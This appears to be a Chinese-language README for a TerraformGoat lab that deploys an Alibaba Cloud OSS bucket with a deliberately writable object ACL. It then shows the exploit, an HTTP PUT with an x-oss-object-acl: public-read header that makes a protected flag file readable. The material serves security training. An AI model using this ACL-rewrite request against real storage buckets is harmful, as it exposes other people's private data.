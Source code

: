 # 描述

[English](./README.md) | 中文

这是一个可以帮你快速构建存储桶对象ACL可读写场景的脚本。
虽然你在实际环境中可能不会遇到，但是玩的愉快

## Git clone

```bash
cd /TerraformGoat/aliyun/object_storage_service/object_acl_writable/ 
```

配置阿里云访问凭证

```shell
aliyun configure
```

> 在阿里云控制台的 [AccessKey 页面](https://ram.console.aliyun.com/manage/ak) 可以创建和查看您的 AccessKey

```bash
terraform init
```

![image-20220425190538237](../../../images/image-20220425190538237.png)

```bash
terraform apply
```

![image-20220425190558881](../../../images/image-20220425190558881.png)

在确认没有问题后，输入yes回车即可快速构建

![image-20220425190632275](../../../images/image-20220425190632275.png)

直接访问该存储桶的/flag.txt

![image-20220425190700830](../../../images/image-20220425190700830.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error>
  <Code>AccessDenied</Code>
  <Message>You do not have read permission on this object.</Message>
  <RequestId>626680CFF343753037B4C0F6</RequestId>
  <HostId>hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com</HostId>
</Error>
```

但是我们可以通过*?acl*来查看这个对象的ACL权限

![image-20220425190747906](../../../images/image-20220425190747906.png)

随后可以通过PUT方法，将对象的ACL修改为public-read即可，我们需要在请求头添加*x-oss-object-acl*参数

```http
PUT /flag.txt?acl HTTP/1.1
Host: hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com
x-oss-object-acl: public-read
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com/
```

![image-20220425190836248](../../../images/image-20220425190836248.png)

成功修改了对象的ACL，现在使用GET方法来获取

![image-20220425191033750](../../../images/image-20220425191033750.png)

## 销毁挑战

```bash
terraform destroy
```

随后输入yes，等待销毁即可

![image-20220425191136549](../../../images/image-20220425191136549.png)
